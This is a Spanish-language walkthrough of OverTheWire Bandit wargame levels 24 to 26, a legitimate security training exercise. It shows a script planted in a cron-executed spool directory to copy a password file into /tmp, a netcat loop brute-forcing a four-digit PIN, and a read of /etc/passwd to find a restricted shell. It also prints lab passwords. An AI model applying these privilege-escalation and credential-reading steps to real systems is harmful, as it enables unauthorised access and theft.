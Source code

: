 ```
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
>cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
> cd /var/spool/bandit24/
> nano uwu.sh 
> cat uwu.sh 
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/srbleu/pass
> touch /tmp/srbleu/pass
> chmod 777 /tmp/srbleu/pass
> cat /tmp/srbleu/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
Salimos a nuestro sistema y nos logeamos con el siguiente usuario usando la clave obtenida
```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
## Level 25
*A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.*
Hagamos un script:
```bash
#!/bin/bash for i in {0000..9999}; do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i | 
    nc localhost 30002 | egrep -v "Exiting|Wrong|I am"
done
```
Ejecutar esto nos da la siguiente contraseña:
```
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
``` 
Salimos a nuestro sistema y nos logeamos con el siguiente usuario usando la clave
```
ssh bandit25@bandit.labs.overthewire.org -p 2220
```
## Level 26
*Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.*
(Este nivel es bastante tricky)
Veamos la shell en el /etc/passwd
```
>cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```